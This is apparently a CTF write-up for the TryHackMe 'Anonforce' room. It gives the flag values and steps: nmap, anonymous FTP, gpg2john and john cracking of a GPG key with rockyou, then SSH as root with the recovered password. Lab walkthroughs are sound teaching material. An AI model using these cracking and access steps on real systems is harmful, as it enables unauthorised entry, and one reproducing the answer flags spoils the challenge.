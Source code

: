 # <div align="center">[Anonforce](https://tryhackme.com/r/room/bsidesgtanonforce)</div>
<div align="center">boot2root machine for FIT and bsides guatemala CTF</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/b2bd9f6b-8995-402a-8e54-2c5596bc16cc" height="200"></img>
</div>

## Task 1. Anonforce Machine

Read user.txt and root.txt
### User.txt
```
606083fd33beb1284fc51f411a706af8
```
* ```nmap -sC -sV <IP>```
* ```ftp <IP>```
* ```cd home/melodias```
* ```get user.txt
* ```cat user.txt```

### Root.txt
```
f706456440c7af4187810c31c6cebdce
```
* ```ls /notread```
* ```gpg --import private.asc```
* ```/data/src/john/run/gpg2john private.asc > pgp.hash```
* ```john pgp.hash --wordlist=/data/src/wordlists/rockyou.txt```
* ```# xbox360          (anonforce)* ```
* ```gpg --import private.asc```
* ```gpg --decrypt backup.pgp```
* ```john backup --wordlist=/data/src/wordlists/rockyou.txt```
* ```root: hikari```
* ```ssh root@<IP>```
* ```cat root.txt```
